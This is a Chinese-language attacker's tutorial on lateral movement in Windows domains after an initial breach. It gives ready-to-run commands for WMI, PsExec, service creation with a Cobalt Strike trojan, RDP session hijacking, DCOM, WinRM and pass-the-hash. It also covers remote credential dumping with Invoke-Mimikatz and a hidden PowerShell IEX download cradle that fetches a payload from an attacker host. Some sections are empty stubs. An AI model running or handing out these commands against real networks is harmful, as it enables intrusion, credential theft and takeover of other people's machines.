横向移动
在攻击者获取到某台内网机器的控制权限以及拿到其他机器的账户密码之后，进一步会考虑如何在内网进行横向移动，以及攻击域控服务器，本文总结了突破边界后进一步的攻击技巧。
1.WMI
WMI全称”windows管理规范”，从win2003开始一直存在。
利用条件
1、WMI服务开启，端口135，默认开启。
2、防火墙允许135、445等端口通信。
3、管理员权限，以及本地管理员组..
关于域用户添加进本地管理组的方法，可以参考 https://richardstk.com/2013/11/26/adding-domain-users-to-the-local-administrators-group-using-group-policy/
利用方法
1.windows自带wmic工具横向移动
先使用cs生成powershell上线载荷

cmd执行：
1 | wmic /NODE:目标ip /user:"域\主机名" /password:"密码" PROCESS call create "webshell" |

cs成功上线。
2.wmiexec.vbs
域环境下或者在工作组环境下都可以正常使用，使用域账号或者本地账户均可
工作组
1 | cscript wmiexec.vbs /shell 192.168.x.x administrator Aatest |
域环境
1 | cscript wmiexec.vbs /shell 目标ip 域名\用户 密码 |

即得到目标的cmd
3.Invoke-TheHash.ps1
在目标主机上分别导入Invoke-TheHash.ps1和Invoke-WMIExec.ps1
!
批量撞网段内的机器即可：
1 | Invoke-TheHash -Type WMIExec -Target 192.168.93.0/24 -Domain 域控名 -Username administrator -Hash 已知hash |

成功的机器可以使用WMI连接
4.pth工具集（kali自带）
执行以下命令可以得到目标cmd环境：
1 | pth-winexe -U 账户名%'密码' --system --ostype=1 //目标ip cmd |

2.Remote Service Creation
远程服务控制，可以通过smb安排任务，在客户机1上执行操作启动客户机2的服务，也就要求了客户机1对客户机2具有操作权限
先用cs生成一个服务类型的木马

在客户机1上执行
1 | sc \\客户机2-ip create ExampleService binpath="path\service.exe" |

成功创建了一个服务ExampleService，需要手动开启：
1 | sc \\客户机2-ip start ExampleService |

此时cs会得到一个system的会话

3.Remote Desktop Protocol
远程桌面协议RDP。微软将其对远程桌面协议(rdp)的实现功能称为远程桌面服务(RDS)
RDP hijacking
非常古老的方法。在system权限下，tscon.exe使用目标会话编号，就能够立即获取目标用户的桌面，不会留下痕迹
利用
假如在客户机1上查询会话时发现有客户机2登录此机器没有退出

在客户机1执行：JuicyPotato.exe -p "tscon id"
成功就可以直接远程登录到客户机2的机器上
但是客户机2会被踢出登录的客户机1

4.PowerShell Remoting
winRM服务，2012之后默认开启，也可以使用以下命令开启：winrm quickconfig
执行以下命令连接到开启了服务的机器：
1 | Enter-PSSession -Computername TARGET |
或者远程获取机器的账号密码（利用条件：administrator或者winRM）：
在客户机2上导入mimikatz的ps1脚本Import-Module .\mimikatz.ps1，执行以下命令就可以获取客户机1的账户密码：
1 | Invoke-Mimikatz -DumpCreds -ComputerName 客户机1-NAME.域控名 |

5.Task Scheduler
计划任务，winodws内置，administrators执行 ,2008之后不能使用交互式了
1 | at time /interactive cmd #不再可以使用这样的了 |
且at变为schtasks
本地创建任务：
1 | SCHTASKS /Create /SC ONCE /TN spawn /TR task_command /ST time |

本地删除任务（cmd下）：
1 | SCHTASKS /Delete /TN spawn /F >nul 2>&1 |
远程创建
1 | SCHTASKS /Create /S target /RU user_name /RP user_password /TN task_name /TR task_command /SC daily /ST time |
powershell版本执行方法
1 |
若你当前拥有一台机器的administrator权限，但是得不到域内的任何东西，也即无法与DC通信，可以尝试提权到system之后，就能与DC正常通信了。
1 |
6.PsExec
1.windows
微软自家产品。通过ipc$连接，然后释放psexesvc.exe到目标机器；通过服务管理器SCManager远程创建psexecsvc服务，并启动服务；客户端连接执行命令，服务端启动相应程序并执行回显数据
得到指定域内机器cmd：Psexec.exe \\域内主机名 cmd

注:
1、远程机器的139 或445端口需要开启状态，即 SMB;
2、明文密码或者NTLM哈希;
3、具备将文件写入共享文件夹的权限;
4、能够在远程机器上创建服务:SC_MANAGER_CREATE_SERVICE(访问掩码:Ox0002);
5、能够启动所创建的服务:SERVICE_QUERY_STATUS (访问掩码:0x0004 )+SERVICE_START(访问掩码:Ox0010)
6、机器在第一次使用psexec的时候，会弹出确认提示框，为避免这个麻烦，可以加一个参数：-accepteula
缺点:
PSEXESVC服务将会安装在远程系统中，此时将会生成Event 4697、7045这2种事件日志;有可能预生成Event 4624和Event 4652 Windows事件日志，日志会记录下该工具的使用数据。
2.cs自带psexec

再指定账户密码，选择sessions

成功后会返回一个shell

7.DCOM
微软介绍：windows Distributed component object Model ( DCOM) is transparent middleware that extends the functionality of component object Model (cOM) beyond a local computer using remote procedure call (RPC) technology. COM is a component of the windows application programming interface(API) that enables interaction between software objects.Through OOM,a client object can call methods of server objects,which are typically Dynamic Link Libraries (DLL) or executables (EXE) .
就是一个中间件，支持交互。
枚举所有DCOM对象
1 | Get-CimInstance win32-DCOMApplication PS下 |
部分docm能进行命令执行，通过这些dcom进行横向移动，例如
MMC20.APPLICATION COM OBJECT
可以使用以下命令查看DCOM的一些信息，再PS下执行
1 | Get-ChildItem 'registry::HKEY_CLASSES_ROOT_WOW6432Note\CLSID\{49B2791A-B1AE-4C90-9B8E-E8608AC7F889}' |
查询的出来的。。
远程利用方式如下
1 | $a =[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application.1", "target_ip")) |

执行成功后会在目标生成c:\fromdcom.txt
8.Password Spray
进行密码破解

9.winrm远程管理服务
WinRM是Microsoft对WS-Management 协议的实现,WS-Management 协议即一种基于标准简单对象访问协议[SOAP]的”防火墙友协议,它让来自不同供应商的硬件和操作系统能够互相操作.
winRM的默认端口为5985 ( http )或5986 ( https )
第一次使用要设置一个信任
1 | Set-Item WSMan:localhost\client\trustedhosts -value * |
反弹一个cs会话：
1 | Invoke-Command -ComputerName target_ip -ScriptBlock { powershell.exe -nop -w hidden -c "IEX((new-object net.webclient).downloadstring("webshell_addr")"} -credential administrator |
反弹shell：
1 | Enter-PSSession -ComputerName target_ip -Credential 域名\用户名 |

Winrs
远程管理
1 | winrs -r:target_ip -u:DC\username -p:password "command" |
例如得到ip信息

将命令替换为cmd即可得到目标cmd环境。

cs—winrm

再选择用户名密码监听方式。

等待即可
10.Pass-The-Hash(pth)
hash传递攻击
1 | sekurlsa::pth /user:USER /ntlm:HASH /run: cmd.exe |

执行完毕后会弹出cmd框

当然也就出现了hash传递防护：
LocalAccountTokenFilterPolicy
在windows Vista之后引入了一种默认开启的remote UAC，计算机的任何非SID 500本地管理员帐户，用户在远程计算机上没有特权提升能力，并且用户无法执行管理任务.
域内一般默认会启用winrm，我们便可以通过pth然后启动进程然后steal_token，使用winrm执行命令。在域管下执行：

附上依次此类型的脚本
https://github.com/FSecureLABS/gists/blob/master/PowerView-with-RemoteAccessPolicyEnumeration.ps1
11.Pass-the-Ticket
票据传递（黄金、白银）